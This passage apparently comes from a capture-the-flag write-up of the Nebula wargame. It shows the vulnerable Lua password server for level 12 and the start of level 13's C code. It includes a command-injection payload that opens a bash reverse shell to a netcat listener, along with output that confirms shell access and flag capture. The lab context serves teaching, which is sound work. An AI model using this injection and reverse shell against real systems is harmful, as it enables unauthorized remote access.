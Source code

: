 
while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local line, err = client:receive()
  if not err then
      print("trying " .. line) -- log from where ;\
      local h = hash(line)

      if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
          client:send("Better luck next time\n");
      else
          client:send("Congrats, your token is 413**CARRIER LOST**\n")
      end

  end

  client:close()
end
{% endcodeblock %}

With `io.popen` we can invoke arbitrary command using several techniques. We
use command substitution and two screens to gain reverse shell using bash:

{% codeblock %}
Window1:
sh-4.2$ nc -l 1337

Window2:
sh-4.2$ nc 0 50001
Password: $(bash -i >& /dev/tcp/0.0.0.0/1337 0>&1)

Window1:
bash: no job control in this shell
flag12@nebula:/$ id
id
uid=987(flag12) gid=987(flag12) groups=987(flag12)

flag12@nebula:/$ getflag
getflag
You have successfully executed getflag on a target account
{% endcodeblock %}

## Level13
The vulnerable program checks if the user does match the specific user id. 

{% codeblock lang:c leve13_safe.c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>

#define FAKEUID 1000
